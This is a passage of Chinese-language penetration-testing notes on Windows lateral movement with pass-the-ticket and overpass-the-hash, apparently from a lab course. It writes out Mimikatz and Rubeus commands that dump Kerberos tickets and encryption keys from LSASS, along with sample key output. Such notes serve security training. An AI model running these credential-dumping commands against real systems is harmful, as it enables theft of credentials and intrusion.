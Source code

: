 > \*\*注意：\*\*有一个例外，如果`FilterAdministratorToken`启用了注册表项（默认情况下禁用）（值为 1），则 RID 500 帐户（即使已重命名）将在 UAC 保护中注册。这意味着远程 PTH 将在使用该帐户时对机器失败。

### 2. Windows 传递票证 (PtT)

> 在 AC环境中横向移动的另一种方法称为 传递票证攻击，在这种攻击中我们使用窃取的 Kerberos 票证而不是 NTLM 密码哈希进行横行移动

#### 1. Pass the Ticket

我们需要一个有效的 Kerberos 票证来执行 PtT

* 服务票证 (TGS - 票证授予服务)运行访问特定资源
* 票证授予票证 （TGT） 我们可以使用它来请求服务票证以访问用户拥有权限的任何资源

#### 2. 从 WIndows 收集 Kerberos 票证

> 我们已经获得一台电脑的本地管理员权限

1.  在 Windows 中票证是由 LSASS 进程处理和存储的，我们可以使用 Mimkatz 中的模块 `sekurlsa::tickets /export` 获取所有的票证,可以得到一个 .kirbi 文件

    ```shell
    c:\tools> mimikatz.exe
    mimikatz # privilege::debug
    mimikatz # sekurlsa::tickets /export
    ```
2.  我们也可以使用 [Rubeus](https://github.com/GhostPack/Rubeus) 和导出票证 dump 选项，此选项可以转储所有票证,该工具的结果时间会产生一个 Base64 格式打印的票证

    ```shell
    c:\tools> Rubeus.exe dump /nowrap
    ```
3. 传递密钥或破解哈希

#### 3. Pass the Key or OverPass the Hash

传统的 PtH 技术不涉及或重用 Kerberos 的 NTLM 哈希

传统的哈希传递 (PtH) 技术涉及重用不涉及 Kerberos 的 NTLM 密码哈希。 Pass the Key 或 OverPass the Hash 方法将加入域的用户的哈希/密钥（rc4\_hmac、aes256\_cts\_hmac\_sha1 等）转换为完整的票证授予票证 (TGT)。 此技术由 Benjamin Delpy 和 Skip Duckwall 在他们的演示文稿“[滥用 Microsoft Kerberos](https://www.slideshare.net/gentilkiwi/abusing-microsoft-kerberos-sorry-you-guys-dont-get-it/18)”中开发。

要伪造票证，我们需要有用户的哈希

1.  我们可以使用 Mimkatz 转储所有用户的 Kerberos 加密密钥使用模块 sekurlsa::ekeys ，该模块将枚举 Kerberos 包中存在的所有密钥类型

    ```shell
    # Mimikatz - 提取 Kerberos 密钥
    c:\tools> mimikatz.exe
    mimikatz # privilege::debug
    mimikatz # sekurlsa::ekeys
    	     * Username : plaintext
             * Domain   : inlanefreight.htb
             * Password : (null)
             * Key List :
               aes256_hmac       b21c99fc068e3ab2ca789bccbef67de43791fd911c6e15ead25641a8fda3fe60
               rc4_hmac_nt       3f74aa8f08f712f09cd5177b5c1ce50f
               rc4_hmac_old      3f74aa8f08f712f09cd5177b5c1ce50f
               rc4_md4           3f74aa8f08f712f09cd5177b5c1ce50f
               rc4_hmac_nt_exp   3f74aa8f08f712f09cd5177b5c1ce50f
               rc4_hmac_old_exp  3f74aa8f08f712f09cd5177b5c1ce50f
